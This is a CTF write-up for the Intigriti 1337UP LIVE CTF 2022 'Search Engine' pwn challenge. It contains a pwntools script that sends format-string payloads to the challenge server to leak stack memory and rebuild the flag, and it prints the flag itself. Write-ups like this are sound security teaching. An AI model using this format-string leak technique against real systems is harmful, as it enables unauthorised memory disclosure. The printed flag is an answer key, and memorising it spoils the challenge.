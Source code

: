 ```yaml
---
name: Search Engine (2022)
event: Intigriti 1337UP LIVE CTF 2022
category: Pwn
description: Writeup for Search Engine (Pwn) - Intigriti 1337UP LIVE CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Search Engine

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/BekVaShD9HE/0.jpg)](https://youtu.be/BekVaShD9HE "Intigriti 1337UP LIVE CTF 2022: Search Engine")

## Challenge Description

> In an attempt to block third party software, we've been using our very own search engine! It doesn't yet have every feature, but at least it's very secure!

## Solution

```py
from pwn import *

context.log_level = 'info'

flag = ''

# Let's fuzz x values
for i in range(12, 16):
    try:
        # Connect to server
        io = remote('searchengine.ctf.intigriti.io', 1337, level='warn')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendline('%{}$p'.format(i).encode())
        # Receive the response (leaked address followed by '.' in this case)
        io.recvuntil(b'No result found. You searched for - ')
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException:
                pass
        io.close()
    except EOFError:
        io.close()

# Print and close
info(flag)
```

Flag: `1337UP{Th3s3_f0rm4ts_ar3_wh4ck!}`
